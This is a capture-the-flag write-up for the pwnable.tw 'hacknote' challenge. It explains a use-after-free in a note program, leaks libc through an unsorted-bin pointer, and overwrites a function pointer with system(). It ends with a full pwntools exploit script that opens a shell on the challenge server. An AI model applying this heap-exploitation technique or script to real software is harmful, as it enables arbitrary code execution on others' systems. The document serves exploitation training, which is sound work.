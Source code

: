 
# 📌 **hacknote - pwnable.tw**  

## 🔹 **Vulnerability Analysis**  

### 📌 **Vulnerable Function: `FUN_080487d4`**  
The vulnerability exists in the function **`FUN_080487d4`**, which suffers from a **Use-After-Free (UAF)** issue.  

---

### 🛠️ **Breakdown of the Issue**  

- The program allows us to create **a maximum of 5 notes**, where we specify the size of each note, and memory is allocated dynamically from the **heap**.  
- Each allocated note has an **extra seperate 8 bytes** for a function pointer, which is used when printing the note and the buffer ptr for the note description.  
- When a note is **freed**, its reference is **not set to NULL**, leading to **Use-After-Free (UAF)** and potential **Double-Free** vulnerabilities.  
- However, **Double-Free is not exploitable** here since the program restricts note creation to only 5 times.  
- **UAF is useful**, as it allows us to hijack the function pointer and overwrite it to achieve **EIP control**.  

---

## 🏴 **Exploitation Plan**  

### 1️⃣ **Leaking a libc address**  
- Allocate a **200-byte chunk** and then **free it**.
- Allocate a guard chunk to prevent the target chunk from merging with the top chunk upon being freed.
- Since the chunk goes to the **unsorted bin**, the **bk pointer** will leak an address from the **main arena** in libc.  
- Allocate a new chunk smaller than 200 bytes to write the first 4 bytes which are zeroed to leaking the bk pointer (the next 4 bytes).

### 2️⃣ **Hijacking the Function Pointer**  
- Allocate two chunks of random sizes (each greater than 16 bytes) to ensure they don’t end up in the same fastbin bucket (which holds chunks up to 16 bytes). The additional 8 bytes allocated alongside each chunk will help us later retrieve and overwrite the function pointer used for printing the note.
    +-------------------------------+
    |      chunk1 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk1 ptr        |
    +-------------------------------+  <- Chunk 1 metadata
    |        40 bytes               |
    +-------------------------------+
    |      chunk2 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk2 ptr        |
    +-------------------------------+  <- Chunk 2 metadata
    |        40 bytes               |
    +-------------------------------+
    |            TOP                 |  <- Top chunk (wilderness)
    |            ...                 |
    +-------------------------------+
- Free them, and then allocate a new **8-byte chunk**.
      +-------------------------------+
    |    Chunk 3 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk1 ptr        |
    +-------------------------------+  
    |            FREE                |
    +-------------------------------+
    |       Chunk 3 (8 bytes)        |
    +-------------------------------+
    |  system  |        sh           |
    +-------------------------------+  
    |            FREE                |
    +-------------------------------+
    |            TOP                 |  <- Top chunk (wilderness)
    |            ...                 |
    +-------------------------------+
- This allows us to **reclaim a previously freed note’s chunk** from the fastbin.  
- Overwrite the **function pointer** (used for printing notes) with **`system()`**, leading to **EIP control** and **shell execution**.  
- UAF for the previous note to print its content which will result in calling system.
---

## 🔹 **Exploit Code**  
```python
#!/usr/bin/python3.10
from pwn import *

# p = process("./hacknote_patched")
p = remote("chall.pwnable.tw", 10102)

index = 0

def add_note(p, size, note):
    p.sendafter("Your choice :", "1")
    p.sendafter("Note size :", str(size))
    p.sendafter("Content :", note)

def delete_note(p, ind):
    p.sendafter("Your choice :", "2")
    p.sendafter("Index :", str(ind))

def print_node(p, ind, data2recv):
    p.sendafter("Your choice :", "3")
    p.sendafter("Index :", str(ind))
    if data2recv != "" :
	    p.recvuntil("CCCC")
	    return p.recvline()[:-1]


puts_got_addr = 0x804a024


add_note(p, 200, "AAAA")
add_note(p, 40, "BBBB")
delete_note(p, 0)

# Leak libc address
add_note(p, 16, "CCCC")  # Leak libc - 0x175f38 = system
add_note(p, 40, "DDDD")
addr = int.from_bytes(print_node(p, 0, "CCCC"), "little")
system_addr = addr - 0x175f38

print(f"Leaked address: {hex(addr)}")
print(f"System address: {hex(system_addr)}")


delete_note(p, 0)
delete_note(p, 3)
add_note(p, 8, p32(system_addr, "little") + b';sh\x00')
print_node(p, 0, "")

p.interactive()
